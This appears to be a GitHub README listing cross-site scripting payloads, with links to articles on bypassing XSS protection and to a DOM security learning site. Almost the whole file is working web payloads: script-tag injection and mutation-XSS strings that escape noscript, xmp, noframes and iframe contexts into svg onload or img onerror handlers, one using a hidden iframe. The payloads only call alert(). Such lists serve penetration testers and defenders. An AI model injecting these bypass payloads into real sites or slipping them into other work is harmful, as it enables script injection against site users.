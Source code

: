 # xss
xss information

>'"><script>alert(1)</script>
<noscript><p title="</noscript><img src=x onerror=alert(1)>"> [About Google](https://nosec.org/home/detail/2449.html)
<noscript><p title="</noscript><svg/onload=alert(45)>">  [Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)
<xmp><p title="</xmp><svg/onload=alert(45)>">
<noframes><p title="</noframes><svg/onload=alert(45)>">
<iframe><p title="</iframe><svg/onload=alert(45)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(45)>"> //隐藏iframe和img
https://domgo.at/cxss/intro //DomGoat - DOM Security Learning Platform
<svg onload=alert(document.domain)>
